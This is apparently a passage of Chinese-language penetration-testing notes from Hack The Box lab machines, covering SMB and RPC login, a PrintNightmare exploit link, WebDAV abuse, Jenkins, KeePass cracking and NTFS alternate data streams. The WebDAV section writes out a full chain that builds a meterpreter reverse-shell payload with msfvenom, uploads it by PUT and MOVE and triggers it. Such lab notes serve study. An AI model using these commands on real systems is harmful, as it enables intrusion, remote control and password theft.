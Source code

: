   ```bash
  smbmap -H 10.10.10.193 -u bhult -p "$pass"
  rpcclient -U bhult%${pass} 10.10.10.193
  ```



- 打印机漏洞提权   [CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)



- WebDAV  查看 http 请求中允许哪些方法，如 put、copy等都是可以利用的

  ```bash
  curl -X OPTIONS http://10.10.10.15 -vv
  davtest -url http://10.10.10.15
  ```

  例子：put 结合 copy 的利用，生成木马传到web路径里再触发

  ```bash
  msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=6666 -f asp -o shell.txt
  curl -X PUT --upload-file shell.txt http://10.10.10.15/shell.txt
  curl -X MOVE --header 'Destination:http://10.10.10.15/shell.asp' 'http://10.10.10.15/shell.txt'
  curl http://10.10.10.15/shell.asp
  ```



- `Jenkins` cms 的 getshell ，build project 或者 script console ，详情见 Jeeves 靶机  与 [HTB: Object | 0xdf hacks stuff](https://0xdf.gitlab.io/2022/02/28/htb-object.html)



- CEH.kdbx 文件 为，That’s a [KeePass](https://keepass.info/) database, a local password manager，可爆破得到密码，然后查看

  ```bash
  keepass2john CEH.kdbx
  ```

  ```
  kpcli --kdb CEH.kdbx
  show -f 0
  show -f 1
  show -f 2
  ............
  ```

  


- windows 文件的特性，这里是查看 flag 文件的例子

  ```powershell
  dir /R
  
  11/08/2017  10:05 AM    <DIR>          .
  11/08/2017  10:05 AM    <DIR>          ..
  12/24/2017  03:51 AM                36 hm.txt
                                      34 hm.txt:root.txt:$DATA
  11/08/2017  10:05 AM               797 Windows 10 Update Assistant.lnk
                 2 File(s)            833 bytes
                 2 Dir(s)   2,674,114,560 bytes free
  
  c:\Users\Administrator\Desktop> more < hm.txt:root.txt                                                   
  afbc5bd4b615a60648cec41c6ac92530                                  
  ```
